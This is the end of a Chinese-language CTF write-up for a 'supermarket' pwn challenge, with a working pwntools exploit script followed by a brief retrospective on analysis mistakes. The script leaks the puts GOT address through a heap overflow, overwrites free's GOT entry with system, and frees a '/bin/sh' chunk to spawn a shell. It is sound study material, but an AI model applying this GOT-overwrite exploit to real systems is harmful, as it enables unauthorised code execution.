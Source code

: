 
if __name__ == '__main__':
  puts_got = elf.got['puts']
  free_got = elf.got['free']
  print "Begin..."
  add_com('a', 0x10, 0x100, 'AAAA')
  change_desc('a', 8, 'A'*7+'\x00')
  add_com('b', 0x10, 0x40, 'BBBB')
  list_com()
  payload1 = 'A'*7+'\x00' + p32(0) + p32(0x21) + 'b'+3*'\x00' + p32(0)
  payload1 += p32(0) + p32(0) + p32(0x10) + p32(0x40) + p32(puts_got)
  change_desc('a', 0x100, payload1)
  list_com()
  p.recvuntil('b: price.16, des.')
  puts_addr = u32(p.recv(4))
  print "[*] the puts addr is " + hex(puts_addr)
  system_addr = puts_addr - (libc.symbols['puts'] - libc.symbols['system'])
  print "[*] the system addr is " + hex(system_addr)
  payload2 = 'A'*7+'\x00' + p32(0) + p32(0x21) + 'b'+3*'\x00' + p32(0)
  payload2 += p32(0) + p32(0) + p32(0x10) + p32(0x40) + p32(free_got)
  change_desc('a', 0x100, payload2)
  change_desc('b', 0x40, p32(system_addr))
  add_com('/bin/sh\x00', 0x10, 0x20, '/bin/sh\x00')
  del_com('/bin/sh\x00')
  p.interactive()</pre>

运行截图：

![pwn]({{ '/images/201805/task_supermarket_2_5.png' | prepend: site.baseurl }})

#### 0x03 总结 ####

第一次拿到题目，费劲的分析每个程序功能，没有第一时间判断程序版本，直接使用IDA64来分析，花的时间比较多，而且该漏洞在汇编代码中很容易被忽略，所以第一次并没有自己发现这个点，后来是群里有人分享脚本，又回头分析代码发现了漏洞。

- 先冷静分析程序版本，使用对应IDA可以使用F5查看伪代码
- 在分析汇编程序的时候需要精神高度集中，并随手将对应的变量注释出来

KEEP Going!!! :P




